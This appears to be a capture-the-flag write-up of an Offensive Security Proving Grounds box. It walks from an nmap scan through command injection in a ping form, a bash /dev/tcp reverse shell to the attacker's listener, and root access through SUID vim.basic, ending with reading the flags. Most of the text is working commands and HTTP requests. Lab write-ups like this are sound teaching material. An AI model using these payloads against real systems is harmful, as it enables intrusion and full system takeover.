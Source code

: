```yaml
---
layout: post
author: H4
---
```


This is an Offensive Security proving grounds box.

# enumeration
Using `nmap` to identify the attack surface of the target server.

## nmap
```bash
$ nmap -Pn -p22,80 -sV 192.168.150.86
Starting Nmap 7.92 ( https://nmap.org ) at 2022-02-01 15:49 EST
Stats: 0:00:06 elapsed; 0 hosts completed (1 up), 1 undergoing Service Scan
Service scan Timing: About 50.00% done; ETC: 15:49 (0:00:06 remaining)
Nmap scan report for 192.168.150.86
Host is up (0.024s latency).

PORT   STATE SERVICE VERSION
22/tcp open  ssh     OpenSSH 7.6p1 Ubuntu 4ubuntu0.3 (Ubuntu Linux; protocol 2.0)
80/tcp open  http    Apache httpd 2.4.29 ((Ubuntu))
Service Info: OS: Linux; CPE: cpe:/o:linux:linux_kernel

Service detection performed. Please report any incorrect results at https://nmap.org/submit/ .
Nmap done: 1 IP address (1 host up) scanned in 6.79 seconds
```

## web server (port 80)
The website exposes a web interface with a command ping feature. This looks juicy to test for a potential `command execution` vulnerability.

---

# vulnerability
## command injection
### request
```http
GET /?host=;whoami HTTP/1.1
Host: 192.168.150.86
Upgrade-Insecure-Requests: 1
User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/97.0.4692.71 Safari/537.36
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,image/avif,image/webp,image/apng,*/*;q=0.8,application/signed-exchange;v=b3;q=0.9
Referer: http://192.168.150.86/
Accept-Encoding: gzip, deflate
Accept-Language: en-US,en;q=0.9
Connection: close
```
### response
```http
HTTP/1.1 200 OK
Date: Tue, 01 Feb 2022 20:50:43 GMT
Server: Apache/2.4.29 (Ubuntu)
Content-Length: 52
Connection: close
Content-Type: text/html; charset=UTF-8

<html>
<body>

<pre>www-data
</pre>
</body>
</html>
```

> It worked! He now have command execution on the server.
{: .prompt-info }

---

# post exploitation
## establish reverse shell with tty
### reverse shell
#### start listener on attacker machine
```bash
$ nc -lvp 80          
listening on [any] 80 ...
```

#### trigger reverse shell on target
payload: ```bash -c 'bash -i >& /dev/tcp/192.168.49.150/80l 0>&1'```
```http
GET /?host=;bash+-c+'bash+-i+>%26+/dev/tcp/192.168.49.150/80l+0>%261' HTTP/1.1
Host: 192.168.150.86
Upgrade-Insecure-Requests: 1
User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/97.0.4692.71 Safari/537.36
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,image/avif,image/webp,image/apng,*/*;q=0.8,application/signed-exchange;v=b3;q=0.9
Referer: http://192.168.150.86/
Accept-Encoding: gzip, deflate
Accept-Language: en-US,en;q=0.9
Connection: close
```

#### catch connect from target
```bash
$ nc -lvp 80       
listening on [any] 80 ...
192.168.150.86: inverse host lookup failed: Unknown host
connect to [192.168.49.150] from (UNKNOWN) [192.168.150.86] 56586
bash: cannot set terminal process group (1044): Inappropriate ioctl for device
bash: no job control in this shell
www-data@shakabrah:/var/www/html$ whoami
whoami
www-data
```

### make the `shell` more beautiful
```bash
www-data@shakabrah:/home/dylan$ python3 -c 'import pty;pty.spawn("/bin/bash")'
www-data@shakabrah:/home/dylan$ export TERM=xterm
export TERM=xterm
```

## get `root` access

Looking for files with the `SUID` flag and owned by 'root'.

```bash
www-data@shakabrah:/home/dylan$ find / -type f -a \( -perm -u+s -o -perm -g+s \) -exec ls -l {} \; 2> /dev/null
 -exec ls -l {} \; 2> /dev/null -o -perm -g+s \) 
-rwxr-sr-x 1 root shadow 34816 Feb 27  2019 /sbin/pam_extrausers_chkpwd
-rwxr-sr-x 1 root shadow 34816 Feb 27  2019 /sbin/unix_chkpwd
-rwsr-xr-x 1 root root 149080 Jan 31  2020 /usr/bin/sudo
-rwxr-sr-x 1 root tty 14328 Jan 17  2018 /usr/bin/bsd-write
-rwsr-xr-x 1 root root 22520 Mar 27  2019 /usr/bin/pkexec
-rwsr-xr-x 1 root root 75824 Mar 22  2019 /usr/bin/gpasswd
-rwsr-xr-x 1 root root 76496 Mar 22  2019 /usr/bin/chfn
-rwxr-sr-x 1 root mlocate 43088 Mar  1  2018 /usr/bin/mlocate
-rwxr-sr-x 1 root shadow 71816 Mar 22  2019 /usr/bin/chage
-rwsr-xr-x 1 root root 18448 Jun 28  2019 /usr/bin/traceroute6.iputils
-rwxr-sr-x 1 root crontab 39352 Nov 16  2017 /usr/bin/crontab
-rwsr-sr-x 1 daemon daemon 51464 Feb 20  2018 /usr/bin/at
-rwsr-xr-x 1 root root 44528 Mar 22  2019 /usr/bin/chsh
-rwsr-xr-x 1 root root 40344 Mar 22  2019 /usr/bin/newgrp
-rwsr-xr-x 1 root root 59640 Mar 22  2019 /usr/bin/passwd
-rwxr-sr-x 1 root ssh 362640 Mar  4  2019 /usr/bin/ssh-agent
-rwsr-xr-x 1 root root 37136 Mar 22  2019 /usr/bin/newgidmap
-rwsr-xr-x 1 root root 2675336 Mar 18  2020 /usr/bin/vim.basic
-rwxr-sr-x 1 root tty 30800 Mar  5  2020 /usr/bin/wall
-rwxr-sr-x 1 root shadow 22808 Mar 22  2019 /usr/bin/expiry
-rwsr-xr-x 1 root root 37136 Mar 22  2019 /usr/bin/newuidmap
-rwsr-xr-x 1 root root 10232 Mar 28  2017 /usr/lib/eject/dmcrypt-get-device
-rwsr-xr-x 1 root root 436552 Mar  4  2019 /usr/lib/openssh/ssh-keysign
-rwsr-xr-x 1 root root 100760 Nov 22  2018 /usr/lib/x86_64-linux-gnu/lxc/lxc-user-nic
-rwxr-sr-x 1 root utmp 10232 Mar 11  2016 /usr/lib/x86_64-linux-gnu/utempter/utempter
-rwsr-xr-x 1 root root 113528 Jul 10  2020 /usr/lib/snapd/snap-confine
-rwsr-xr-x 1 root root 14328 Mar 27  2019 /usr/lib/policykit-1/polkit-agent-helper-1
-rwsr-xr-- 1 root messagebus 42992 Jun 11  2020 /usr/lib/dbus-1.0/dbus-daemon-launch-helper
-rwsr-xr-x 1 root root 26696 Mar  5  2020 /bin/umount
-rwsr-xr-x 1 root root 30800 Aug 11  2016 /bin/fusermount
-rwsr-xr-x 1 root root 64424 Jun 28  2019 /bin/ping
-rwsr-xr-x 1 root root 43088 Mar  5  2020 /bin/mount
-rwsr-xr-x 1 root root 44664 Mar 22  2019 /bin/su
```

The `vim.basic` binary looks interesting.  
Having a look at [gtfobins](https://gtfobins.github.io/gtfobins/vim/#suid) reveals that we can exploit it to get `root` access.

```bash
www-data@shakabrah:/home/dylan$ /usr/bin/vim.basic -c ':py3 import os; os.execl("/bin/sh", "sh", "-pc", "reset; exec sh -p")'
# whoami
root
```

---

# accessing the flags
## first flag
```bash
# cd home
# ls
dylan
# cd dylan
# ls
local.txt
# cat local.txt
6******************************3
```

## second flag
```bash
# cd /root
# ls
proof.txt
# cat proof.txt
c******************************3
```

Pwned! <@:-)
